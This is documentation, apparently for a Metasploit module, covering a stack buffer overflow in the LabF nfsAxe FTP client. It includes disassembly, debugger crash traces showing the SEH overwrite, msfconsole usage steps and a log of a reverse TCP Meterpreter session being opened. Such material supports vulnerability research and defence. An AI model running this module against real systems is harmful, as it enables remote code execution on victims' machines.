 ## Vulnerable Application

LabF nfsAxe is a package of NFS servers and clients on Windows, including:

* NFS Client
* NFS Server
* FTP client
* Telnet
* LPD & LPR
* TFTP

The FTP client is vulnerable a stack-based buffer overflow due to the way it handles the server
input, which could lead to arbitrary remote code execution under the context of the user.

The exploit was tested on Windows 7 Enterprise SP1 (English).

The vulnerable copy can be [downloaded from Exploit-DB](https://www.exploit-db.com/apps/81575f3c81f28a239e881f68e5ea82b1-nfsaxe.exe).

### Root Cause Analysis

Inside sub_42C890() of ftp.exe, a stack buffer ```[esp+2424h+ptrBuffer]``` is passed as an
argument to sub_42EE10():

```
AUTO:0042C8FF loc_42C8FF:                             ; CODE XREF: sub_42C890+16Aj
AUTO:0042C8FF                                         ; sub_42C890+1B5j
AUTO:0042C8FF                 push    edi
AUTO:0042C900                 mov     ebx, 3FFh
AUTO:0042C905                 lea     edx, [esp+2424h+ptrBuffer]
AUTO:0042C90C                 push    1
AUTO:0042C90E                 mov     eax, ds:dword_465100
AUTO:0042C913                 mov     ecx, edi
AUTO:0042C915                 call    sub_42EE10      ; Call Procedure
```

According to IDA, the buffer size is 1024 bytes:

```
-0000041C ptrBuffer       db 1024 dup(?)
```

The buffer pointer is used to receive data from the FTP server. It is passed all the way to
xwpwsock!recv_dll, and then WS2_32!recv. Finally, the exploit causes the exploit to crash
because the malicious string is long enough that causes an out-of-bound WRITE. This can
be observed by the following demonstration with these breakpoints:

```
bp 0042c915 ".printf \"Passing static buffer pointer at 0x%08x\", edx; .echo ;g"
bp 0042ea0c ".printf \"Destination buffer for receive is: 0x%08x\n\", edx; .echo; g"
bp 0042eb73 ".printf \"EDX Text dump: %ma\n\", edx; .echo; .echo; g"
```

The WinDBG output:

```
Passing static buffer pointer at 0x027ff4f4
Destination buffer for receive is: 0x027ff4f4 
EDX Text dump: AAAAAAAAAAAAAAA ........ AAAAAAAAAAAAAAA (a very long string)

(d48.864): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000041 ebx=000003fe ecx=ffffdbfc edx=000003fe esi=027ffc02 edi=02800000
eip=0042cac5 esp=027fd4ec ebp=000023ee iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
ftp+0x2cac5:
0042cac5 8807            mov     byte ptr [edi],al          ds:0023:02800000=??
```

In this crash, ESI is the source input, which is filled with our malicious input:

```
0:001> dd esi
027ffc02  41414141 41414141 41414141 41414141
027ffc12  41414141 41414141 41414141 41414141
027ffc22  41414141 41414141 41414141 41414141
027ffc32  41414141 41414141 41414141 41414141
027ffc42  41414141 41414141 41414141 41414141
027ffc52  41414141 41414141 41414141 41414141
027ffc62  41414141 41414141 41414141 41414141
027ffc72  41414141 41414141 41414141 41414141
```

EDI would be the destination buffer used for this copy routine:

```
AUTO:0042CAC3 loc_42CAC3:                             ; CODE XREF: sub_42C890+249j
AUTO:0042CAC3                 mov     al, [esi]       ; ESI is the malicious input
AUTO:0042CAC5                 mov     [edi], al       ; EDI = our buffer, and AL is a byte from the malicious input
AUTO:0042CAC7                 cmp     al, 0           ; Check null byte
AUTO:0042CAC9                 jz      short loc_42CADB ; Done copying
AUTO:0042CACB                 mov     al, [esi+1]     ; The next byte
AUTO:0042CACE                 add     esi, 2
AUTO:0042CAD1                 mov     [edi+1], al
AUTO:0042CAD4                 add     edi, 2
AUTO:0042CAD7                 cmp     al, 0
AUTO:0042CAD9                 jnz     short loc_42CAC3 ; Continue copying if string isn't null
```

Since the exploit supplies a string that is long enough, the SEH chain on the stack is also
overwritten:

```
0:001> !exchain
027fff70: 41414141
Invalid exception stack at 41414141
```

The exploit simply overwrites the SEH chain to gain arbitrary code execution.

## Verification Steps

To test the exploit:

1. Install the application
2. Start `msfconsole`
3. Do: `use exploit/windows/ftp/labf_nfsaxe`
4. Set options and payload
5. Do: `exploit`
6. Connect to the FTP server using the FTP client
7. You should get a session like the following demonstration:

```
msf exploit(windows/ftp/labf_nfsaxe) > run

[*] Started reverse TCP handler on 172.16.85.1:4444 
[*] Please ask your target(s) to connect to 172.16.85.1:21
[*] Server started.
msf exploit(windows/ftp/labf_nfsaxe) >
[*] 172.16.85.134 - connected.
[*] 172.16.85.134 - Response: Sending 220 Welcome
[*] 172.16.85.134 - Request: AUTH GSSAPI
[*] 172.16.85.134 - Response: sending 331 OK
[*] 172.16.85.134 - Request: ADAT TlRMTVNTUA==
[*] 172.16.85.134 - Response: Sending 230 OK
[*] 172.16.85.134 - Request: USER Guest
[*] 172.16.85.134 - Request: Sending the malicious response
[*] Sending stage (179779 bytes) to 172.16.85.134
[*] Meterpreter session 1 opened (172.16.85.1:4444 -> 172.16.85.134:49213) at 2018-01-09 22:38:33 -0600
```
